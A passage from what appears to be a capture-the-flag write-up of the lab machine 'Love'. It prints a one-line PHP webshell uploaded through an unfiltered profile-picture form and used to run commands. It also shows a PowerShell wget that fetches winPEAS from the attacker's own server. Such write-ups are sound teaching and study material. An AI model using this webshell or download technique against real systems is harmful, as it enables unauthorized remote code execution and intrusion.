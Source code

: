 The profile picture is the first target that comes to mind, as it’s the chance to upload something. It looks like zero filtering is in place, as if I just select a simple PHP webshell and upload it as `cmd.php`, it doesn’t complain.

```

<?php system($_REQUEST["cmd"]); ?>

```

The image is now broken at the top:

![image-20210721151521100](https://0xdfimages.gitlab.io/img/image-20210721151521100.png)

Looking at the source for the page, it saved the file as `cmd.php`:

![image-20210721151547209](https://0xdfimages.gitlab.io/img/image-20210721151547209.png)

Visiting `http://love.htb/images/cmd.php` returns an error about missing `cmd`:

![image-20210721151626831](https://0xdfimages.gitlab.io/img/image-20210721151626831.png)

Adding `?cmd=whoami` to the end shows I have execution:

![image-20210721151651843](https://0xdfimages.gitlab.io/img/image-20210721151651843.png)

To get a shell from here, I could use a PHP reverse shell, or upload `nc.exe` or a [Nishang](https://github.com/samratashok/nishang) PowerShell shell.

## Shell as SYSTEM

### Enumeration

After looking around the filesystem a bit manually, I opted to run [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). After cloning the repo to my VM, I went into the directory with `winPEAS.exe` and started a Python web server (`python3 -m http.server 80`).

From Love, I’ll use `PowerShell` to upload the file:

```

C:\ProgramData>powershell wget http://10.10.14.6/winPEAS.exe -outfile wp.exe

```

There’s a hit on the webserver, and the file is present. Now I’ll run it with `.\wp.exe`. There’s a ton of output, so I’ll just highlight the interesting parts.

It finds a PowerShell history file:

```

  [+] PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    Transcription Settings:
    Module Logging Settings:
    Scriptblock Logging Settings:
    PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                             
    PS history size: 51B  

```
